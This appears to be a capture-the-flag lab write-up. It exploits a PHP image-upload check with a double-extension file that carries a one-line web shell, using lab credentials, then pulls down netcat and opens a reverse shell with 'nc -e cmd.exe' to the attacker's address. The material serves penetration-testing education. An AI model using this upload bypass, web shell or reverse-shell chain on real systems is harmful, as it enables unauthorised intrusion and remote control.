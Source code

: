 ### Low-priv user access on 10.200.90.100 (wreath-pc)

Analyze the source code of index.php
```
cat Website.git/website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3/resources/index.php
```
- This looks like a uploading webpage. Read the source code to find a uploading vuln:
```
...
$goodExts = ["jpg", "jpeg", "png", "gif"];
...
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
	header("location: ./?msg=Fail");
	die();
...
```
- The explode() function in this file shows that: as long as the file has one of those four images extensions, the server is going to accpet the file. This means that we can legitimately upload shell.jpg.php that may contain php code. Also, getimagesize() function is checking for the attributes that only an image can have. This implies we also need a normal image as the payload holder.
- The structure of directories implies that there is web direcotry: `resources`

Exploit the uploading vuln
- Visit http://10.200.90.100/resources/
	- This is asking the creds, let's try `thomas:i<3ruby` that we gained from the previous section.
- Customize the shell payload
	- Just get a normal image: `cp ~/Documents/Pictures_backup/demo.png rce-ll2022.png.php`
	- Examine the image: `exiftool rce-ll2022.png.php`
	- Add the php code to the image `echo "<?php echo shell_exec(\$_GET['cmd']); ?>" >> rce-ll2022.png.php`
- Visit http://10.200.90.100/resources/
	- Upload rce-ll2022.png.php
- RCE in the browser: `view-source:http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=whoami /all`
- Let's get an interactive shell on the target
	- Download the nc64.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/nc64.exe`
	- Set up local python http server: `python3 -m http.server 80`
	- Then, upload nc.exe to the target, set up the nc listener and trigger for the reverse shell
```
sudo proxychains curl -u 'thomas:i<3ruby' "http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=curl+http://10.50.91.115/nc64.exe+-o+c:\\users\\public\\nc.exe"

rlwrap nc -nvlp 443

sudo proxychains curl -u 'thomas:i<3ruby' "http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=c:\\users\\public\\nc.exe+-e+cmd.exe+10.50.91.115+443"
```

